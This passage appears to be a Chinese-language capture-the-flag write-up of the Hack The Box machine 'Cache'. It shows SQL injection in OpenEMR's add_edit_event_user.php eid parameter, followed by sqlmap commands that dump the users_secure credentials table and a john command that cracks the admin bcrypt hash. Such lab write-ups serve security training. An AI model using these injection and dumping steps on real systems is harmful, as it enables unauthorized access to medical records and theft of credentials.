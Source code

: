 根据视频演示，应该在`/portal/add_edit_event_user.php`的一个参数`eid`存在注入。

尝试验证。

先浏览`http://hms.htb/portal/`点击注册

![image-20200626040855614]({{ site.url }}/assets/Cache_188.assets/image-20200626040855614.png)

此时会弹出注册页面

![image-20200626040937466]({{ site.url }}/assets/Cache_188.assets/image-20200626040937466.png)

忽略掉，直接在地址栏输入`http://hms.htb/portal/add_edit_event_user.php?eid='`

弹出数据库错误信息，验证成功。

![image-20200626041107051]({{ site.url }}/assets/Cache_188.assets/image-20200626041107051.png)

bp抓包

![image-20200626041234822]({{ site.url }}/assets/Cache_188.assets/image-20200626041234822.png)

复制内容存为文件，并将之前eid的参数值改为1,以方便sqlmap识别

```bash
sqlmap -r sql_pack.txt --dbs --batch
```

![image-20200626041737686]({{ site.url }}/assets/Cache_188.assets/image-20200626041737686.png)

```bash
sqlmap -r sql_pack.txt -D openemr --batch --tables
```

![image-20200626043000262]({{ site.url }}/assets/Cache_188.assets/image-20200626043000262.png)

```bash
sqlmap -r sql_pack.txt -D openemr -T users_secure --columns --batch
```

![image-20200626043047299]({{ site.url }}/assets/Cache_188.assets/image-20200626043047299.png)

```bash
sqlmap -r sql_pack.txt -D openemr -T users_secure -C password,username --batch --dump
```

![image-20200626043405028]({{ site.url }}/assets/Cache_188.assets/image-20200626043405028.png)

```bash
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin
```

解密hash

```bash
echo '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' > hash.txt
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
